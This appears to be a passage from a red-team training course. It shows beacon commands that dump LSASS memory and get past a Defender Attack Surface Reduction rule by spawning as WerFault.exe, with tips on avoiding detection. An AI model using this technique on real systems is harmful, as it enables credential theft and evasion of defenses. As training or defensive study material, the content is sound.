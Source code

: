 _"This rule helps prevent credential stealing, by locking down Local Security Authority Subsystem Service (LSASS)."_

At its heart, this rule prevents you from opening a handle to LSASS with PROCESS_VM_READ privileges.  As an example, we can try and read LSASS using the **MiniDumpWriteDump** API.

```
beacon> getuid
[*] You are RTO2\amoss (admin)

beacon> spawnto x64 C:\Windows\System32\notepad.exe
[*] Tasked beacon to spawn x64 features to: C:\Windows\System32\notepad.exe

beacon> execute-assembly C:\Tools\MiniDumpWriteDump\bin\Debug\MiniDumpWriteDump.exe
[X] MiniDumpWriteDump Failed
```

>  I'm ensuring the spawnto is set to notepad because Defender will catch and kill the Beacon if rundll32 is used.

As with other ASR rules, not all processes appear to be blocked.  WerFault (Windows Error Reporting) is an application responsible for error reporting on Windows.  When an application crashes, werfault.exe is spawned as a child and collects debug information for reporting purposes.

By setting our spawnto to werfault, we can obtain a handle to LSASS which includes the permission to read its memory.

```
beacon> spawnto x64 C:\Windows\System32\WerFault.exe
[*] Tasked beacon to spawn x64 features to: C:\Windows\System32\WerFault.exe
[+] host called home, sent: 40 bytes

beacon> execute-assembly C:\Tools\MiniDumpWriteDump\bin\Debug\MiniDumpWriteDump.exe
[!] MiniDumpWriteDump Succeeded
```